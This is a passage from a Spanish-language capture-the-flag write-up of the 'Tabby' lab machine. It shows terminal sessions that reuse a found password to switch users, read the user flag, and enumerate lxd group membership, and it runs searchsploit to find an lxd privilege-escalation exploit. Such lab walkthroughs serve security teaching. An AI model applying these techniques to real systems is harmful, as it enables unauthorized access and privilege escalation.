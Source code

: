 Resulta que la contraseña es la misma para convertirnos en el usuario **Ash**, úsala y obtén la flag:
```bash
tomcat@tabby:/var/www/html/files$ su ash
Password: 
ash@tabby:/var/www/html/files$ whoami
ash
ash@tabby:/var/www/html/files$ cd /home
ash@tabby:/home$ cd ash
ash@tabby:~$ ls -la
total 28
drwxr-x--- 3 ash  ash  4096 Aug 19  2021 .
drwxr-xr-x 3 root root 4096 Aug 19  2021 ..
lrwxrwxrwx 1 root root    9 May 21  2020 .bash_history -> /dev/null
-rw-r----- 1 ash  ash   220 Feb 25  2020 .bash_logout
-rw-r----- 1 ash  ash  3771 Feb 25  2020 .bashrc
drwx------ 2 ash  ash  4096 Aug 19  2021 .cache
-rw-r----- 1 ash  ash   807 Feb 25  2020 .profile
-r-------- 1 ash  ash    33 May 12 19:03 user.txt
ash@tabby:~$ cat user.txt
```
¡Excelente!, escalemos privilegios y acabemos con esto.


<br>
<br>
<hr>
<div style="position: relative;">
	<h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="LXD">Enumerando Usuario Ash y Usando Exploit para Privesc del Grupo lxd</h2>

Si revisamos los grupos en los que se encuentra el usuario **ash**, veremos el siguiente:
```bash
ash@tabby:~$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```
Nos vamos a aprovechar del grupo **lxd**, busquemos un Exploit y configurémoslo.

Pero antes, ¿qué es el grupo lxd?

| **Grupo lxd** |
|:-----------:|
| *Linux Container Daemon (LXD), es una herramienta de gestión de los contenedores del sistema operativo Linux. Permite crear contenedores de sistemas Linux ideales para su uso en la nube. Con esta herramienta tenemos la posibilidad de crear múltiples contenedores dentro del mismo.* |

<br>

Busquemos un Exploit:
```bash
searchsploit lxd                    
------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                        |  Path
------------------------------------------------------------------------------------------------------ ---------------------------------
Ubuntu 18.04 - 'lxd' Privilege Escalation                                                             | linux/local/46978.sh
------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
Papers: No Results
```
